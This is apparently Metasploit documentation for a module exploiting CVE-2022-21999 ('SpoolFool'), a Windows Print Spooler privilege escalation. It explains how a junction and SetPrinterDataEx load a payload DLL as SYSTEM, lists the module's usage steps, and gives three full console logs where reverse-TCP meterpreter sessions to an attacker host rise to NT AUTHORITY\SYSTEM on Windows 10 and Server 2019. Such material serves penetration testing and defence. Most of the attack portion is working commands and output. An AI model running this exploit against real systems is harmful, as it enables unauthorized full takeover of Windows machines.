 
## Vulnerable Application

The Windows Print Spooler has a privilege escalation vulnerability that
can be leveraged to achieve code execution as SYSTEM.

The `SpoolDirectory`, a configuration setting that holds the path that
a printer's spooled jobs are sent to, is writable for all users, and it can
be configured via `SetPrinterDataEx()` provided the caller has the
`PRINTER_ACCESS_ADMINISTER` permission. If the `SpoolDirectory` path does not
exist, it will be created once the print spooler reinitializes.

Calling `SetPrinterDataEx()` with the `CopyFiles\` registry key will load the
dll passed in as the `pData` argument, meaning that writing a dll to the `SpoolDirectory`
location can be loaded by the print spooler.

Using a directory junction and UNC path for the `SpoolDirectory`, the exploit
writes a payload to `C:\Windows\System32\spool\drivers\x64\4` and loads it
by calling `SetPrinterDataEx()`, resulting in code execution as SYSTEM.

This has been tested on Windows 10 and Windows Server 2019.

## Verification Steps

1. Get a meterpreter session on the target
2. Do: `use exploit/windows/local/cve_2022_21999_spoolfool_privesc`
3. Do: `set SESSION <sess_no>`
4. Do: `set LHOST <lhost>`
5. Do: `set LPORT <port_no>`
6. Do: `run`
7. You should get a meterpreter session with SYSTEM privileges.

## Options

### WAIT_TIME

The time to wait for the print spooler to restart

## Scenarios

### Windows 10 21H2 (Build 19044.1288)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.146:49674 ) at 2022-03-14 09:02:21 -0500

meterpreter > getuid
Server username: DESKTOP-49N0D8H\shelbypace
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd
[+] Printer DZBUma was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd\4
[*] Creating junction point: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\tqDNFaf.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.146:49677 ) at 2022-03-14 09:08:36 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1709 (Build 16299)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.144:49671 ) at 2022-03-11 08:02:46 -0600

meterpreter > getuid
Server username: DESKTOP-EULFBD8\space
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\Xvamagt
[+] Printer ukfoJL was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\space\AppData\Local\Temp\Xvamagt\4
[*] Creating junction point: C:\Users\space\AppData\Local\Temp\Xvamagt -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\UYoQz.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.144:49674 ) at 2022-03-11 08:08:32 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

## Windows Server 2019 v1809 (Build 17763.1577)

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.142:49674 ) at 2022-03-10 16:55:26 -0600

meterpreter > getuid
Server username: WIN-VR5A12O80FQ\space
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\ruXuBfgxx
[*] v4 directory already exists.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\dVADJcO.dll
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.142:49675 ) at 2022-03-10 17:01:02 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
